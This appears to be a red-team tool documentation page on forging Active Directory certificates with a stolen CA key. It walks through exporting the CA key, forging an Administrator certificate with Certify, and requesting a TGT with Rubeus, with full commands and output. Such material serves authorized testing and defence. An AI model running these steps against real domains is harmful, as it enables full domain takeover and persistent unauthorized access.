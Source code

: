 ```yaml
---
title: 'DPERSIST1 - Forging Certificates with Stolen CA'
description: 'Extend one-time privileged access to a CA server into unrestricted privileged access across the entire environment by forging certificates with stolen CA certificates.'
icon: 'key'
sidebarTitle: 'DPERSIST1 - Forging Certificates with Stolen CA'
---
```


DPERSIST1 is a technique used to extend one-time privileged access to a CA server into unrestricted privileged access across the entire environment. Specifically, once privileged access has been obtained on a CA server, it is possible to extract the CA signing certificate and associated private key, and use these to sign self-made certificates for arbitrary identities and purposes in the environment, thereby making these self-made certificates trusted for authentication in the Active Directory domain.

<Warning>
This technique provides unrestricted persistence in the domain and should only be used in authorized testing scenarios with proper approval.
</Warning>

Effectively, this technique can be used for unrestricted persistence in the domain, as it allows the adversary to forge certificates for arbitrary users and purposes. However, if the CA server is not being treated as a [Tier 0](https://posts.specterops.io/what-is-tier-zero-part-1-e0da9b7cdfca) asset, and server admins equivalent to [Tier 1](https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-access-model) has administrative privileges on the server, this technique can be used for privilege escalation.

## Obtaining the CA Signing Certificate

In order to execute DPERSIST1, we must first obtain the CA signing certificate. This can be done in a plethora of ways:

<Accordion title="CA Backup Feature">
- Open `certsrv.msc`
- Right click the CA -> `All Tasks` -> `Back up CA...`
- Follow the wizard but make sure to check `Private key and CA certificate`
- The certificate should now exist at the chosen location (`CA-NAME.p12`)
</Accordion>

<Accordion title="CA Server's Machine Certificate Store">
- Open `certlm.msc`
- Go to `Personal` -> `Certificates`
- Right click the CA signing certificate -> `All Tasks` -> `Export...`
- Follow the wizard but make sure to choose `Yes, export the private key`
- The certificate should not exist at the chosen location (`CA-NAME.pfx`)
</Accordion>

<Accordion title="Windows Certificate Services certutil.exe">
```bash
certutil.exe -backupkey <directory>
```

<Info>
This feature has been implemented in Certify with the `manage-self --dump-certs` command.
</Info>
</Accordion>

## Dumping Certificates with Certify

<CodeGroup>
```bash Command
Certify.exe manage-self --dump-certs
```

```text Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Manage the current machine

[*] Attempting to dump a certificate from the certificate store.
[*] Certificate (PFX) - CORP-CA01-CA:

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:00.3382608
```
</CodeGroup>

## Forging Certificates

Once the CA signing certificate has been obtained, we can start forging our own certificates for arbitrary users. This can be done using the `forge --ca-cert <pfx-path/base64-pfx>` command from Certify.

<CodeGroup>
```bash Command
Certify.exe forge --ca-cert MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh... --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500
```

```text Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Forge a (golden) certificate

CA Certificate Information:
  Subject:        CN=CORP-CA01-CA, DC=corp, DC=local
  Issuer:         CN=CORP-CA01-CA, DC=corp, DC=local
  Start Date:     21/05/2025 12.13.47
  End Date:       21/05/2030 12.23.46
  Thumbprint:     CFBDC6826AC074EF86BE7774F959A2FF5F322DDC
  Serial:         12D3E574A63DE7854A9E5A1F4CD56490

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: Administrator
  Issuer:         CN=CORP-CA01-CA, DC=corp, DC=local
  Start Date:     30/06/2025 15.56.28
  End Date:       30/06/2026 15.56.28
  Thumbprint:     93215C22F943FC99E296B945295EB86E0CC37750
  Serial:         0096F3BC7B4B56AA1A501F1A97FEECA37A

Forged certificate (PFX):

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:00.7056050
```
</CodeGroup>

## Using the Forged Certificate

When the certificate has been forged, it can be used to persistently authenticate as the target account using the [`asktgt`](/ghostpack-docs/Rubeus-mdx/commands/ticket-requests/asktgt) command from [Rubeus](/ghostpack-docs/Rubeus-mdx/overview).

<CodeGroup>
```bash Command
Rubeus.exe asktgt /user:Administrator /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...
```

```text Output
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=User
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\Administrator'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGcjCCBm6gAwIBBaEDAgEWooIFfzCCBXthggV3MIIFc6ADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  CORP.LOCAL
  StartTime                :  30/06/2025 16.00.24
  EndTime                  :  01/07/2025 02.00.24
  RenewTill                :  07/07/2025 16.00.24
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  o6o+mRr6Rv1e+yBLYYSxOg==
  ASREP (key)              :  13D4AC9D6B6DEEFE900A7707C6C44C98
```
</CodeGroup>